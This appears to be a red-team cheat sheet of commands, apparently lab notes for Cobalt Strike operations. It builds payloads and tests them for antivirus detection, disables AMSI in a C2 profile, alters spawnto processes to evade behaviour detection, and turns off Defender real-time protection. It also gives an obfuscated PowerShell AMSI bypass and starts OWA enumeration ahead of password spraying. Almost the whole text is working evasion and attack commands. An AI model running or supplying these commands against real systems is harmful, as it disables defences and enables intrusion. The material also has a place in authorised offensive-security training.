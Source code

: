 ```powershell
$ ./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts

# Compile the resource kit
$ ./build.sh /mnt/c/Tools/cobaltstrike/resources

# Verify if the payload is AV Safe
PS> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
PS> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI

# Load the CNA file: Cobalt Strike > Script Manager > Load_ and select the CNA
# Use Payloads > Windows Stageless Generate All Payloads to replace all of your payloads in `C:\Payloads`

# Disable AMSI in Malleable C2 profile
$ vim c2-profiles/normal/webbug.profile

#Right above the `http-get` block, add the following:
post-ex {
        set amsi_disable "true";
}

# Verify the modified C2 profile
attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile

# Creating custom C2 profiles
https://unit42.paloaltonetworks.com/cobalt-strike-malleable-c2-profile/

# Note: `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It does not apply to the powershell command.

# Behaviour Detections (change default process for fork & run)
beacon> spawnto x64 %windir%\sysnative\dllhost.exe
beacon> spawnto x86 %windir%\syswow64\dllhost.exe

# Change the default process for psexec
beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

# Disable Defender from local powershell session
Get-MPPreference
Set-MPPreference -DisableRealTimeMonitoring $true
Set-MPPreference -DisableIOAVProtection $true
Set-MPPreference -DisableIntrusionPreventionSystem $true

# AMSI bypass
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
## Initial Compromise
Enumerating OWA to identify valid user and conducting password spraying attack
```powershell
# Identify the mail server of given domain
$ dig cyberbotic.io
$ ./dnscan.py -d cyberbotic.io -w subdomains-100.txt

# Idenitfy the NETBIOS name of target domain
ps> ipmo C:\Tools\MailSniper\MailSniper.ps1
ps> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

```